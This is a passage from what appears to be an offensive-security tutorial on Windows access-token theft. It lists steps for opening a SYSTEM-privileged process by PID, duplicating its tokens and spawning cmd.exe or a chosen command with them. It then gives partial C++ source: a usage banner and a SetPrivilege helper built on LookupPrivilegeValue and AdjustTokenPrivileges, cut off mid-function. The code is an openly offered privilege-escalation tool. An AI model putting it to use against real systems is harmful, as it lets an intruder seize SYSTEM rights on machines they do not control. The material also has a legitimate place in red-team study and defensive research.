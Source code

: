 ## <mark style="color:red;">Sample C++ Code</mark>

* Check if the **migrate.exe** process is running with the privileges of the **“nt authority\system”** user. We need it for future impersonation functionality.
* Open Handle to the wanted process (_this is the PID of the process we want to steal the privilege tokens from_).
* Duplicate their tokens (_privileges in windows system was managed by tokens_).
* If the duplication was successful it tries to run new process by using these duplicated tokens.



```cpp
#include <windows.h>
#include <wchar.h>
#include <iostream>
#include <stdio.h>
#include <stdlib.h>

using namespace std; 

void usage(char *name)

{
       cout << "(-) Ex.: " << name << " <PID>  :: for open cmd.exe with new privilages.\n";
       cout << "(-) Ex.: " << name << " <PID> \"<command>\" :: for execute command by priveleges of requested PID.\n";
} 

BOOL SetPrivilege(HANDLE hToken,          // access token handle
                  LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
                  BOOL bEnablePrivilege   // to enable or disable privilege )

{
       TOKEN_PRIVILEGES tp;
       LUID luid;

       if (!LookupPrivilegeValue(
              NULL,            // lookup privilege on local system
              lpszPrivilege,   // privilege to lookup
              &luid))        // receives LUID of privilege

       {
              printf("\t(-) LookupPrivilegeValue error: %u\n", GetLastError());
              return FALSE;
       }

 
       tp.PrivilegeCount = 1;
       tp.Privileges[0].Luid = luid;
       if (bEnablePrivilege)
              tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
       else
              tp.Privileges[0].Attributes = 0;

       // Enable the privilege or disable all privileges.
       if (!AdjustTokenPrivileges(hToken,FALSE,&tp,sizeof(TOKEN_PRIVILEGES),(PTOKEN_PRIVILEGES)NULL,(PDWORD)NULL))
       {
              printf("\t(-) AdjustTokenPrivileges error: %u\n", GetLastError());
              return FALSE;
       }

       if (GetLastError() == ERROR_NOT_ALL_ASSIGNED) 
       {
```